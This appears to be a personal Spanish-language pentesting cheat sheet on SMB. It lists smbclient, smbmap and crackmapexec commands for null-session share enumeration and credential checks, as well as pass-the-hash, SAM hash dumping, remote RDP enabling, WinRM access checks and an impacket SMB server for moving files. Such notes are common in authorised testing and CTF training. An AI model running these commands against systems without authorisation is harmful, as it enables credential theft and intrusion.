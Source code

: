 # SMB 

Tags: #SMB #Comandos #Windows #Servidor 

```bash
❯ apt-get -y install crackmapexec     # Para instalar crackmapexec. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.
```


```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbclient -L //❮IP❯/❮Dir❯ -N        # Nos conectaremos a una carpeta con el uso de un null sesion (sin credencial alguna)

# Una vez adentro podriamos ejecutar los siguientes comandos 
	❯ dir                            # Mirar el contenido del directorio
	❯ put ❮File❯                     # Para subir un archivo al dir SMB 
	❯ get ❮File❯                     # Para descargar un archivo
```

```bash
❯ smbclient -U user \\\\❮IP❯\\ShareName    # Nos permite ver el contenido de shares, uploads, download files si el privilegio nos lo permite
```

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
❯ crackmapexec smb ❮IP❯ --shares      # Para listar los recursos de otra manera, pero aveces no funciona
```

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

```bash
❯ crackmapexec smb ❮IP❯ -u <‘USER’> -H <‘HASH’>          # Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
```

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -p <‘PASSWORD’> --sam** Podremos listar el hash del usuario administrador y del resto que existan en el sistema, con los que podemos llegar a aplicar pass de hash  
- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’> -M rdp -o action=enable** Podemos habilitar el RDP puerto 3389 

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2

❯ smbserver.py <FOLDERNAME> $(pwd)                 # Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
```